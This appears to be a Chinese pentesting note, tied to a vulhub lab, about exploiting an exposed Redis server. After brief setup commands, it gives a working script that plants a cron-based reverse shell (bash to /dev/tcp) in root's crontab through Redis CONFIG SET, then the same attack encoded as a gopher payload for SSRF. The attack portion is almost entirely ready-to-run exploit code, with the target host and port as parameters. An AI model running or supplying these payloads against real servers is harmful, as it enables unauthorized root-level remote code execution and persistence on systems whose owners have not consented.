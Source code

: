 
实验环境：https://github.com/vulhub/vulhub/tree/master/fpm

```
$sudo apt-get update
$sudo apt-get install redis-server
$service redis-server start
$redis-cli
```

![img](assets/iWNgyaz.png)

![img](assets/e4bu8dJ.png)



[利用redis写webshell](https://www.leavesongs.com/PENETRATION/write-webshell-via-redis-server.html)
先写一个redis反弹shell的bash脚本如下：

```sh
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```

该代码很简单，在redis的第0个数据库中添加key为1，value为`\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n\n\n\n`的字段。最后会多出一个n是因为echo重定向最后会自带一个换行符。

把接收到的数据转化为gopher数据流

```sh
*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$58%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a
```

